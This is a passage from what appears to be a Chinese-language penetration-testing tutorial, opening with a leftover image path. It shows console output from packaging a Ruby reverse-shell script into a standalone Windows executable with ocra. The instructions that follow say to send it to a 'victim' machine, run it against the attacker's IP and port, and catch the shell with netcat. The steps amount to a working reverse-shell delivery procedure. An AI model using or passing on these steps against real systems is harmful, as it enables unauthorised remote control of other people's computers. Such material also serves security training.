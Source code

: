 结果

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
=== Loading script to check dependencies
ruby C:/Users/admin/Desktop/rshell.rb.rb [HACKER_IP HACKER_PORT]

=== Attempting to trigger autoload of Gem::ConfigFile
=== Attempting to trigger autoload of Gem::DependencyList
=== Attempting to trigger autoload of Gem::DependencyResolver
=== Attempting to trigger autoload of Gem::Installer
=== Attempting to trigger autoload of Gem::RequestSet
=== Attempting to trigger autoload of Gem::Source
=== Attempting to trigger autoload of Gem::SourceList
=== Attempting to trigger autoload of Gem::SpecFetcher
=== Attempting to trigger autoload of CGI::HtmlExtension
=== Detected gem ocra-1.3.5 (loaded, files)
===     6 files, 191333 bytes
=== Detected gem io-console-0.4.3 (loaded, files)
=== WARNING: Gem io-console-0.4.3 root folder was not found, skipping
=== Including 53 encoding support files (3424768 bytes, use --no-enc to exclude)
=== Building rshell.exe
=== Adding user-supplied source files
=== Adding ruby executable ruby.exe
=== Adding detected DLL C:/Ruby22/bin/zlib1.dll
=== Adding detected DLL C:/Ruby22/bin/LIBEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/SSLEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/libffi-6.dll
=== Adding library files
=== Compressing 10622666 bytes
=== Finished building rshell.exe (2756229 bytes) 
```

在同一目录中，你会找到一个名为`rshell.exe`的可执行文件。将其发送到没有安装 Ruby 的 Windows 受害机器上并运行。

```
rshell.exe 192.168.0.14 9911 
```

我们的攻击机器已经在 9911 端口监听

```
nc -lvp 9911 
```
